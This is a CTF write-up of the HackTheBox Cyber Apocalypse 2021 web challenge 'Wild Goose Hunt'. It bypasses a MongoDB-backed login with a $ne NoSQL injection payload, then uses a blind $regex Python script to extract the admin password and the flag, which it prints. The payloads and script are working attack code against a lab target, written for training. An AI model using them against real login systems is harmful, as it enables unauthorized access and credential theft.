# CTF HackTheBox 2021 Cyber Apocalypse 2021 - Wild Goose Hunt

Category: Web, Points: 300

![info.JPG](images/info.JPG)

And attached file: [web_wild_goose_hunt.zip](web_wild_goose_hunt.zip)

# Wild Goose Hunt Solution

Let's start the docker and browse it:

![index.JPG](images/index.JPG)

We can see the website ask for username and password.

By observe the code from attached zip file [web_wild_goose_hunt.zip](web_wild_goose_hunt.zip) we can see the file moodles/User.js:
```js
const mongoose = require('mongoose');
const Schema   = mongoose.Schema;

let User = new Schema({
	username: {
		type: String
	},
	password: {
		type: String
	}
}, {
	collection: 'users'
});

module.exports = mongoose.model('User', User);
```

We can see it's used [mongoose](https://mongoosejs.com/), Let's try to intercept the login request using [BurpSuite](https://portswigger.net/burp):

![login.JPG](images/login.JPG)

Because we know the DB is mongoDB we can try [NoSQL Injection](https://www.netsparker.com/blog/web-security/what-is-nosql-injection/).

Let's try the simple payload:
```HTTP
POST /api/login HTTP/1.1
Host: 138.68.168.137:32704
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.68.168.137:32704/
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: http://138.68.168.137:32704
Content-Length: 33
DNT: 1
Connection: close

username[$ne]=1&password[$ne]=1
```

It's mean - give me all users from DB where username not equals to 1 and password not equals to 1, If we send it we get the following response:
```HTTP
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 62
ETag: W/"3e-BvDyP4u8qgWgGOMxzemBf6QGSBc"
Date: Thu, 22 Apr 2021 22:22:07 GMT
Connection: close

{"logged":1,"message":"Login Successful, welcome back admin."}
```

So It's mean we have user called admin.

We can now write python script to guess the user password by with blind NoSQL Injection ([Reference](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)):
```python
import requests
import string

URL="http://138.68.168.137:32634"

def guess_admin_password():
	password=""
	headers = {'Content-type': 'application/x-www-form-urlencoded;charset=UTF-8'}
	print("Starting...")
	for i in range(100): #maximun password lenth = 100
		for c in string.ascii_uppercase + string.ascii_lowercase + string.digits + '{_}':
			payload=f"username=admin&password[$regex]=^{password}{c}"
			r = requests.post(URL + "/api/login", data=payload, headers=headers)

			if "Successful" in r.text:
				password+=c
				print(password)
				if '}' in password:
					return
				break

guess_admin_password()
```

We send the following payload:
```python
payload=f"username=admin&password[$regex]=^{password}{c}"
```

It's mean, we find password of username admin started with guess charcter.

Run it (It may take 1-2 minutes):
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/web/wild_goose_hunt]
└──╼ $ python wild.python
Starting...
C
CH
CHT
CHTB
CHTB{
CHTB{1
CHTB{1_
CHTB{1_t
CHTB{1_th
CHTB{1_th1
...
CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}
```

And we get the flag: ```CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}```.